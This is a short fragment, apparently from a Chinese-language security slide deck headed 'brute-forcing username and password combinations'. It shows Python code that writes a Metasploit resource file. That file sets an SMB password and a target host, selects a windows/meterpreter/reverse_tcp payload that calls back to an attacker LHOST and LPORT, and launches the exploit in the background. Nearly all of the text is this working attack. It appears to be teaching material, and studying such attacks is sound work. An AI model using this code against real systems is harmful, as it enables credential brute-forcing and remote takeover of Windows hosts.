

针对用户名和密码组合暴破
     configFile.write('set SMBPass ' + str(password) + '\n')
	configFile.write('set RHOST ' + str(tgtHost) + '\n')
	configFile.write('set PAYLOAD windows/meterpreter/reverse_tcp\n')
	configFile.write('set LPORT ' + str(lport) + '\n')
	configFile.write('set LHOST ' + lhost + '\n')
	configFile.write('exploit -j -z\n')